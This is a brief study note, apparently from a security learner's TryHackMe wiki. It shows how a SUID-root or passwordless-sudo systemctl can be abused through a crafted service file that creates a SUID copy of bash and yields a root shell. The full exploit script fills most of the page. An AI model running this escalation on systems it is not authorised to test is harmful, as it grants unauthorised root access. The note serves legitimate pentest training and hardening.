 # Exploiting “systemctl”

If systemctl is SUID root, then a malicious service file can easily be abused to create a root shell.

```bash
FILE=`mktemp -u`
echo "[Service]" >> $FILE.service
echo "Type=oneshot" >> $FILE.service
echo "ExecStart=/bin/cp /bin/bash $FILE.sh" >> $FILE.service
echo "ExecStart=/bin/chmod +xs $FILE.sh" >> $FILE.service
echo "[Install]" >> $FILE.service
echo "WantedBy=multi-user.target" >> $FILE.service
systemctl link $FILE.service
systemctl start $FILE.service
$FILE.sh -p # Root!
```

Even if systemctl is not SUID root, so long as you have NOPASSWD sudo access to it this trick will work.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

- - - -

👤 Nathan Acks  
📅 November 3, 2021
